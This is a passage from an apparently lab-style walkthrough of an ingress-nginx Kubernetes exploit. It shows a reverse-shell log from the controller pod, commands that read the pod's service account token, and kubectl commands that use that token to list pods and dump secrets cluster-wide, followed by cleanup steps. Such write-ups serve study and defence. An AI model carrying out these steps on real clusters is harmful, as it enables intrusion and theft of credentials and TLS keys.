 1. **Wait for the reverse shell**:
    ```log
    listening on [::]:1337 ...
    connect to [::ffff:10.244.1.3]:1337 from [::ffff:10.244.1.4]:60900 ([::ffff:10.244.1.4]:60900)
    bash: cannot set terminal process group (13): Not a tty
    bash: no job control in this shell
    ingress-nginx-controller-6f78ddcd8f-xl6fl:/etc/nginx$ ls
    fastcgi.conf
    fastcgi.conf.default
    fastcgi_params
    fastcgi_params.default
    ...
    ```

---

### Post-Exploitation

#### Exfiltrate the ingress-nginx Service Account Token

1. In your netcat shell, **exfiltrate the ingress-nginx service account token**:
    ```bash
    cat /var/run/secrets/kubernetes.io/serviceaccount/token
    # Example output:
    #
    # eyJhbGciOiJSUzI1NiIsImtpZCI6IiJ9...
    ```

1. On the attacker pod, **use `kubectl` with the ingress-nginx service account token**:
    ```bash
    export TOKEN=<ingress-nginx-service-account-token>
    kubectl --token=$TOKEN get pods -A
    ```

1. You can also **retrieve all secrets** in all namespaces and watch their contents:
    ```bash
    kubectl --token=$TOKEN get secrets -A -o json
    ```

#### Impact

Compromising this service account token grants broad, read-only access to critical Kubernetes resources cluster-wide, including listing and watching secrets, pods, nodes, namespaces, and more. An attacker could harvest sensitive information (such as credentials or TLS keys) from secrets, monitor real-time changes to workloads, and gather detailed metadata about the cluster. This level of access could enable further attacks or pivoting to other systems.

---

## Cleanup

1. **Clean up the environment**:
    ```bash
    kubectl delete -f ingress-nginx/base
    kubectl delete -f alpine.yaml
    ```

---

## Resources

- <https://www.wiz.io/blog/ingress-nginx-kubernetes-vulnerabilities>
